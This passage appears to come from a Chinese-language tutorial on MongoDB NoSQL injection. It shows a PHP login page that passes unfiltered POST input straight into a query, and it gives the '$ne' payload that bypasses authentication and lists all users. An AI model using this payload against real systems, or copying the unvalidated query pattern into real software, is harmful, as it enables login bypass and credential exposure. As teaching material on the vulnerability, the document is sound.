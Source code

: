 然后编写 index.php：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

如下，当正常用户想要登陆 whoami 用户时，POST 方法提交的数据如下：

```
username=whoami&password=657260
```

进入 PHP 后的程序数据如下：

```
array(
    'username' => 'whoami',
    'password' => '657260'
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'whoami', 'password':'657260'})
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
```

我们从代码中可以看出，这里对用户输入没有做任何过滤与校验，那么我们可以通过 `$ne` 关键字构造一个永真的条件就可以完成 NoSQL 注入：

```sql
username[$ne]=1&password[$ne]=1
```

如下图所示，成功查出所有的用户信息，说明成功注入了一个永真查询条件：
